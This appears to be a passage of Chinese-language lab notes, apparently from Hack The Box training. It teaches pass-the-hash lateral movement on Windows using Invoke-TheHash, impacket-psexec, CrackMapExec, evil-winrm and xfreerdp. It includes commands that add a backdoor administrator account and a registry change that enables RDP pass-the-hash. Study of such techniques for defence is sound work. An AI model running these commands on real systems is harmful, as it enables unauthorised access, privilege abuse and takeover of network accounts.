 ```shell
# 使用SMB方式进行命令执行，创建一个名为mark的新用户，并将该用户添加到Administrators组中
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# 使用 WMI 调用 TheHash
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain Administrator -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command ""
```

#### 4. 使用 Impacket 传递哈希 (Linux)

我们可以使用 Impacket 工具包中的其他几种工具来使用传递哈希攻击来执行命令，例如：

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-ateexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

```shell
# 使用 impacket-psexec 传递哈希
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

#### 5. 使用 CrackMapExec (Linux) 传递哈希

```shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### 6. 使用 evil-winrm (Linux) 传递哈希

```shell
# 注意：使用域账户时，我们需要包含域名，例如：administrator@inlanefreight.htb
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### 7. 使用 RDP (Linux) 传递哈希

```shell
# 启用受限管理模式以允许 PtH
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# 使用 RDP 传递哈希
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

#### 8. UAC 限制传递本地账户的哈希

UAC（用户帐户控制）限制本地用户执行远程管理操作的能力。当注册表项`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`设置为 0 时，表示内置本地管理员帐户（RID-500，“管理员”）是唯一允许执行远程管理任务的本地帐户。将其设置为 1 也允许其他本地管理员。
